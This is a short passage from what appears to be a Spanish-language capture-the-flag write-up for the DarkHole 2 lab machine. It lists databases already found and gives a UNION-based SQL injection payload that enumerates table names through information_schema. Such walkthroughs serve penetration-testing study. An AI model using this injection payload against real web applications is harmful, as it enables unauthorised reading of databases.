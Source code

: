 Desde se corta la información pero la podemos ver completa en la forma de Raw 
![Paste](./17.jpeg)

![Paste](./19.jpeg)

Hasta este punto tenemos la siguiente información:
```txt

Nombre de Base de Datos existentes 
	mysql
	information_schema
	performance_schema
	sys
	darkhole_2
```

Listaremos las tablas que existen en ``darckhole_v2`` 

```sql

union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```
